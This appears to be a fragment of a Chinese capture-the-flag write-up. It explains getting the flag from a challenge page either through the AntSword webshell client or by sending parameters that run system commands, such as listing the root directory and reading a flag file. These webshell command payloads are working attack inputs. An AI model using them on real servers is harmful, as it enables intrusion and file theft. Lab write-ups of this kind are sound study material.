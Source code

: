 访问后有两种方法获得flag，第一种是蚁剑链接，对于不知道flag位置的，比较方便，

第二种是直接构架命令

```
123=system('ls /');
```

![image-20240126103731156](照片/image-20240126103731156.png)

得到flag位置，构建命令查看flag

```
123=system('cat /f*');
```
